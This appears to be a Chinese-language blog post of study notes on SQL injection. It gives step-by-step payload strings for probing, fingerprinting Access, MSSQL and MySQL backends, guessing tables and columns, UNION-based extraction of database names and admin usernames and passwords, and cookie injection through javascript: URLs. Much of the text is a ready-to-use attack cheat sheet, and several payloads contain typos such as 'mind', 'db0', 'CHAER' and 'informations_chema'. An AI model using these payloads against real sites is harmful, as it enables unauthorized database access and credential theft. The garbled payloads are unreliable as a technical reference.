 ```yaml
---
title: review of Network attack and defense
comments: true
date: 2016-09-19 01:02:38
categories: Discovery
---
```

SQL注入即是指攻击者通过在应用程序中预先定义好的查询语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的任意查询。

## SQL注入基础
### 1.试探 1=1，1=2
1. http://example.asp?id=49
2. http://example.asp?id=49 `and 1=1`
3. http://example.asp?id=49 `and 1=2`

可以注入的表现：
1. 正常显示
2. 正常显示
3. 提示BOF或EOF

不可注入的表现：
1. 正常显示
2. 程序定义的错误提示或提示类型转换时出错。
3. 同上

### 2.判断数据库类型
#### 加单引号
1. 错误提示含有JET（JET是ACCESS数据库的数据库引擎）
2. 错误提示中含有OLEDB（OLEDB是SQL SERVER使用的数据库引擎）

#### and user > 0
SQL SERVER出错：将nvarchar值“abc”转换数据类型为int的列时发生语法错误；“abc”正是变量user的值。SQL SERVER中有一个内置变量user，变量类型为nvarchar。

ACCESS的系统表[msysobjects]在web环境下读该表会提示“没有权限”；SQL SERVER的系统表[sysobjects]在web环境下不可正常读取。

#### `and (select count (*) from sysobjects) > 0`
SQL SERVER显示正常。ACCESS显示出错。

#### `and (select count (*) from msysobjects) > 0`
SQL SERVER显示正常。ACCESS显示没有权限。

### 3.猜表名
`and (select count (*) from admin) >= 0`
返回正常说明admin存在

### 4.猜字段
`and (select count (content) from admin) >= 0`
返回正常说明content字段存在

常用的猜字段函数
ACCESS: asc(字符)	返回字符的ascii
MSSQL: unicode(字符)	同上
ACCESS: char(数字)	返回ascii的字符
MSSQL: nchar()同上
ACCESS: mid(字符串,N,L)	返回字符串从N个字符起，长度为L的子字符串
MSSQL: substring(字符串,N,L)	同上
ACCESS,MSSQL: abc(数字)	返回数字的绝对值（猜汉字使用）
ACCESS,MSSQL: A between B and C	判断A是否在B和C之间

例`and (select asc(mind(password,1,1))from admin) > 100`
查询admin中password字段第1个字符串的ascii是否大于100

例`select * from article where articleid = '' union select * from user where userid = 1  `
第一个select执行后返回结果`title` `content`
`select * from article where articleid = ''`
第二个select执行后返回结果`username` `password`
`select * from user where userid = 1`
整个select执行后返回结果`username` `password`
如果前面查询为真，则同时返回两次查询的内容

1. 判断字段个数`order by`
2. 查表名`and (select count (*) from admin) >= 0`
3. 猜测admin表的字段个数（假如有三个字段id,user,password）`union select 1,2,3,4,5,6,7,8,9,10,* from admin`返回错误，`union select 1,2,3,* from admin`返回正常

inner join on: 指定返回两个表中匹配的行
`select * from admin as a inner join admin as b on a.id = b.id`返回一个表中的两个内容

上方`3`中没法显示admin中所有的字段信息，扩大显示范围，构造如下语句`and 1=2 union select 1,2,3,* from admin as a inner join admin as b on a.id = b.id`

`select * from admin inner join admin1 on admin.id = admin1.id`返回两个表内容

## MSSQL
1. 判断字段个数`order by 13`
2. 判断字段回显位`and 1=2 union all select 1,2,null,4,5,6,7,8,9,10,11,null,13`
3. 数据库版本`and 1=2 union select 1,@@version,null,4,5,6,7,8,9,10,11,null,13`
4. 当前数据库名`and 1=2 union all select 1,db_name(),null,4,5,6,7,8,9,10,11,null,13`
5. 所有数据库名（通过更改dbid，7以上的是用户数据库）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from master.db0.sysdatabases where dbid = 7 --`
6. 表名（更改top后的数字来查询）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAER(85) and name not in (select top 1 name from data.db0.sysobjects where xtype = CHAR(85))--`
7. 字段对应id`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAR(85) and name not in (select top 7 name from data.bd0.sysobjects where xtype = CHAR(85))--`
8. 根据id查字段名`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.syscolumns where ID = 12345 and name not in (select top 1 name from data.db0.syscolumns where ID = 12345)--`

## ASSESS
1. 试探`1=1` `1=2`
2. 环境监测`and ord(mid(version(),1,1))>51`正常则为mysql4以上版本，可以union查询`union select 1,version(),3`
3. 确定字段数`order by 13`
4. 判断精确字段`and 1=2 union select 1,2,3,4`正常返回在页面中
5. 爆数据库名`and 1=2 union select 1,user(),3,database()`正常返回在页面中
6. 爆表`and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.tables where TABLE_SCHEMA = 'blah'`结果返回在2字段
7. 爆字段`and 1=2 union select 1,COLUMN_NAME,3,4 from informations_chema.COLUMN where TABLE_NAME='users'` `and 1=2 union select char(mid(COLUMN-NAME)),2,3,4 from information_schema.COLUMN where TABLE_NAME='users'`
8. 爆数据`and 1=2 union select 1,user,3,password form phptest.users`

## cookie注入
1. 在原地址加单引号
2. 去掉id值，页面出错，构造cookie语句：`javascript:alert(document.cookie="id="+escape("30 and 1=1"))`会弹窗
3. 关闭弹窗，去掉id访问，页面正常
4. 猜测字段`javascript:alert(document.cookie="id="+escape("30 order by 5"))`点击确认，去掉id访问，页面正常则正常
5. 判断回显位`javascript:alert(document.cookie="id="+escape("30 union select 1,2,3,4 from admin"))`点击确认，去掉id访问，页面正常则正常
6. 猜解user password字段`javascript:alert(document.cookie="id="+escape("30 union select 1,user,3,4 from admin"))`
